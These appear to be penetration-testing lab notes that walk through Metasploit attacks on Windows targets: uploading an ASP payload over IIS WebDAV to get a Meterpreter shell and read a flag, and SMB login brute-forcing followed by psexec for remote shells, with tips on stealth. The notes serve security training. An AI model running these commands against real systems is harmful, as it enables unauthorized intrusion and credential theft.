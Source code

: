 **Using Metasploit** 

```shell
service postgresql start && msfconsole
use exploit/windows/iis/iis_webdav_upload_asp
show options
set RHOSTS demo.ine.local
set HttpUsername bob
set HttpPassword password_123321
# %RAND% is a Metasploit variable that generates a random string when the exploit runs. It helps avoid overwriting and increases stealth.
# Fixed filenames can be useful for manual execution but might be detected more easily.
set PATH /webdav/metasploit.asp # metasploit%RAND%.asp
exploit
# Read the flag.
sysinfo
getuid
shell
cd /
dir
type flag.txt
```

### 1.2. Windows: SMB Server PSexec

**SMB** (Server Message Block) is a network protocol primarily used for sharing files, printers, and other resources over a network, typically operating on ports 139 and 445. The Linux equivalent for SMB is the Samba suite, which allows Linux systems to communicate with SMB/CIFS networks and share resources.

Two level of authentication:
- User Authentication - username and password
- Share Authentication - password

**[PsExec]**(https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) is a command-line tool from the Sysinternals Suite that allows administrators to remotely execute processes on other systems without needing to install client software. It supports interactive command prompts and system-level commands on remote machines, typically using port 445 for SMB communication. PsExec requires administrative privileges, making it powerful but also potentially risky if misused.

```shell
# First check with Nmap the open ports and services.
nmap -sV -sC -p 139,445 <target_IP>
nmap -p 445 --script smb-protocols <target_IP>

# The next step will involve performing the SMB brute force.
service postgresql start && msfconsole
search smb_login
use auxiliary/scanner/smb/smb_login
show options
set RHOSTS <target_IP>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run

# We have found some users and their passwords. Run psexec module to gain the meterpreter shell.
use exploit/windows/smb/psexec # Keep in mind that an antivirus may detect this on the target machine.
set RHOSTS <target_IP>
set SMBUser <username>
set SMBPass <password>
exploit

shell
cd /
```
